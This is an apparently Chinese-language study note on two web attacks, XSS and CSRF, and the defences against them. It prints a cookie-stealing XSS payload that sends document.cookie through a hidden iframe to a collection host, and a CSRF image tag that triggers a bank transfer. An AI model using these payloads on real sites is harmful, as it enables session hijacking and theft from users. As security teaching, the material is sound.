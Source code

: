 ```yaml
---
title: 前端安全：XSS与CSRF
date: 2017-09-15
tags: [http]
categories: http
---
```

>整理自:
[详解XSS与CSRF两种跨站攻击](http://www.zyy1217.com/2017/04/22/%E8%AF%A6%E8%A7%A3XSS%E4%B8%8ECSRF%E4%B8%A4%E7%A7%8D%E8%B7%A8%E7%AB%99%E6%94%BB%E5%87%BB/)
[总结 XSS 与 CSRF 两种跨站攻击](https://segmentfault.com/a/1190000004623125)



## XSS跨站脚本（Cross-site scripting，通常简称为XSS）

### 原理

XSS 全称“跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，例如发布评论，提交含有 JavaScript 的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。

### 举例：

假设xx贴吧存在这个漏洞，我打开一个帖子回复：

```js
// 用<script type="text/javascript"></script>包起来
while (true) {
    alert('hello,xss');
}
```
然后这条回复就发出去啦，当其他用户点进这个帖子，这段代码就会被执行，然后一直alert，这就是最原始的脚本注入。

那XSS跨站脚本也很容易理解了，注入一个可以跨站的脚本即可：

```js
// 用 <script type="text/javascript"></script> 包起来放在评论中
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```

这时候，用户点进帖子，这段代码开始运行，他们并不知道自己的信息（cookie）已经被iframe跨域的方式送到收集服务器上，然后我们就可以用cookie中的隐私信息做很多很多事情啦。

### 如何防御XSS攻击

我们知道AJAX技术所使用的XMLHttpRequest对象都被浏览器做了限制，只能访问当前域名下的 URL，所谓不能“跨域”问题。这种做法的初衷也是防范XSS，多多少少都起了一些作用，但不是总是有用，正如上面的注入代码，用iframe也一样可以达到相同的目的。甚至在愿意的情况下，我还能用iframe发起POST请求。当然，现在一些浏览器能够很智能地分析出部分 XSS 并予以拦截，例如新版的 Firefox、Chrome 都能这么做。但拦截不总是能成功，何况这个世界上还有大量根本不知道什么是浏览器的用户在用着可怕的IE6。从原则上将，我们也不应该把事关安全性的责任推脱给浏览器，所以防止XSS的根本之道还是过滤用户输入。用户输入总是不可信任的，这点对于 Web 开发者应该是常识。

正如上文所说，如果我们不需要用户输入HTML而只想让他们输入纯文本，那么把所有用户输入进行 HTML 转义输出是个不错的做法。

## CSRF跨站请求伪造（ross-site request forgery）

跨站请求攻击，简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

你这可以这么理解CSRF攻击：攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账……造成的问题包括：个人隐私泄露以及财产安全。

严格意义上来说，CSRF 不能分类为注入攻击，因为 CSRF 的实现途径远远不止 XSS 注入这一条。通过XSS来实现CSRF易如反掌，但对于设计不佳的网站，一条正常的链接都能造成 CSRF。

### 原理

![csrf.jpg](http://upload-images.jianshu.io/upload_images/4869616-3449f27f48a1a9c5.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

从上图可以看出，要完成一次CSRF攻击，受害者必须依次完成两个步骤：

1. 登录受信任网站A，并在本地生成Cookie。
2. 在不登出A的情况下，访问危险网站B。

### 举例

1. 你登录银行网站A，银行网站A违反了HTTP规范，使用GET请求更新资源。这就存在了csrf漏洞。
2. 你访问危险网站B，B中有一段代码
```js
<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>
```
3. 你发现你的账户少了1000元

为什么会这样呢？原因是银行网站A违反了HTTP规范，使用GET请求更新资源。在访问危险网站B的之前，你已经登录了银行网站A，而B中的以GET的方式请求第三方资源（这里的第三方就是指银行网站了，原本这是一个合法的请求，但这里被不法分子利用了），所以你的浏览器会带上你的银行网站A的Cookie发出Get请求，去获取资源http://www.mybank.com/Transfer.php?toBankId=11&money=1000 ，结果银行网站服务器收到请求后，认为这是一个更新资源操作（转账操作），所以就立刻进行转账操作。

### 如何防御CSRF攻击

1. 通过 referer 判定来源页面
    referer是在HTTP Request Head里面的，也就是由请求的发送者决定的。如果我喜欢，可以给 referer任何值。当然这个做法并不是毫无作用，起码可以防小白。

2. 使用验证码
    在表单中增加一个随机的数字或字母验证码，通过强制用户和应用进行交互，来有效地遏制CSRF攻击。

3. token验证
    * 在 HTTP 请求中以参数的形式加入一个随机产生的token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有token或者token内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。

    * token需要足够随机

    * 敏感的操作应该使用POST，而不是GET，以form表单的形式提交，可以避免token泄露。

4. 在 HTTP 头中自定义属性并验证
    这种方法也是使用 token 并进行验证，这里并不是把 token 以参数的形式置于 HTTP 请求之中，而是把它放到HTTP头中自定义的属性里。通过 XMLHttpRequest这个类，可以一次性给所有该类请求加上csrftoken这个HTTP头属性，并把 token 值放入其中。这样解决了上种方法在请求中加入 token 的不便，同时，通过 XMLHttpRequest 请求的地址不会被记录到浏览器的地址栏，也不用担心 token 会透过 Referer 泄露到其他网站中去。

    我的理解：WebB并没有获取你的cookie，而只是伪造用户发起http请求，浏览器自动带上cookie而已，token存放在cookie中，即使cookie发送至服务端，我们每一次接受请求验证的并不是cookie，而是header中的token，WebB就无能为力了。


## XSS与CSRF的区别

CSRF 和 XSS 根本是两个不同维度上的分类。XSS是实现CSRF的诸多途径中的一条，但绝对不是唯一的一条。一般习惯上把通过 XSS 来实现的 CSRF 称为 XSRF。

可以通过跨站脚本注入XSS获取用户的信息，获得用户信息过后可以做诸多的事情，但是CSRF只能模拟用户行为，

CSRF 的全称是“跨站请求伪造”，而 XSS 的全称是“跨站脚本”。看起来有点相似，它们都是属于跨站攻击——不攻击服务器端而攻击正常访问网站的用户，但前面说了，它们的攻击类型是不同维度上的分类。CSRF顾名思义，是伪造请求，冒充用户在站内的正常操作。我们知道，绝大多数网站是通过 cookie 等方式辨识用户身份（包括使用服务器端 Session 的网站，因为 Session ID 也是大多保存在cookie里面的），再予以授权的。所以要伪造用户的正常操作，最好的方法是通过 XSS或链接欺骗等途径，让用户在本机（即拥有身份 cookie 的浏览器端）发起用户所不知道的请求。






